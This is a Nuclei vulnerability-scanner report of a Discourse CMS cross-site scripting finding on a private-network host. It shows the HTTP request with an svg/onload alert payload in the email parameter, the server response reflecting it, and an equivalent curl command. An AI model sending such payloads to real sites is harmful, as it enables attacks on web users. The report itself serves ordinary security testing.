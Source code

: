 ### Discourse CMS - XSS (discourse-xss) found on http://192.168.198.179:8080/
---
**Details**: **discourse-xss**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/email/unsubscribed?email=test@gmail.com%27\%22%3E%3Csvg/onload=alert(xss)%3E

**Timestamp**: Wed Jun 8 20:22:04 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | Discourse CMS - XSS |
| Authors | madrobot |
| Tags | xss, discourse |
| Severity | medium |
| Description | Cross-site scripting (XSS) on Discourse CMS |

**Request**
```http
GET /email/unsubscribed?email=test@gmail.com%27\%22%3E%3Csvg/onload=alert(xss)%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.1 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 169
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>..."><svg/onload=alert(xss)></B> was not found.</BODY></HTML>
```


**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.1 Safari/537.36' 'http://192.168.198.179:8080/email/unsubscribed?email=test@gmail.com%27\%22%3E%3Csvg/onload=alert(xss)%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)